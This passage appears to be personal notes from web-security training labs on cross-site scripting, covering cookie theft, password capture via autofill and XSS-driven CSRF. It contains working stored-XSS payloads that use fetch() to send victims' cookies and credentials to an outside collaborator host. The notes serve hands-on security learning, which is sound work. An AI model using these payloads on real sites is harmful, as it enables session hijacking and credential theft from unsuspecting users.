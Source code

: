 **Deliver exploit to victim -> Solved.**

We added #x to location parameter. Because victim has to focus on x to get exploit successfully.

### Lab: Exploiting cross-site scripting to steal cookies

This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted.

[https://developer.mozilla.org/en-US/docs/Web/API/Fetch\_API/Using\_Fetch](https://developer.mozilla.org/en-US/docs/Web/API/Fetch\_API/Using\_Fetch)

```
<script>
fetch('https://ywydligqh0r7wbu3gk3mswlufllc91.burpcollaborator.net', {
method: 'POST',
mode: 'no-cors',
body: document.cookie
});
</script>
```

**Burp Collaborator -> HTTP Request -> Request to Collaborator**

### Lab: Exploiting cross-site scripting to capture passwords

This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted.

```
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://esaw6yr19x66xsnzqct8lua8szypme.burpcollaborator.net',{
method:'POST',
mode: 'no-cors',
body: username.value+':'+this.value
});">
```

**Burp Collaborator -> HTTP Request -> Request to Collaborator**

We got an advantage of using autofill option. When the password field changed, we got victim's credential via fetch request.

### Lab: Exploiting XSS to perform CSRF

This lab contains a stored XSS vulnerability in the blog comments function.

```
GET /my-account HTTP/1.1
<input required type="hidden" name="csrf" value="TdBuzBzKRXNHm1pBHc34XP6tNziHynrI">

POST /my-account/change-email HTTP/1.1
email=test%40test.com&csrf=TdBuzBzKRXNHm1pBHc34XP6tNziHynrI
```
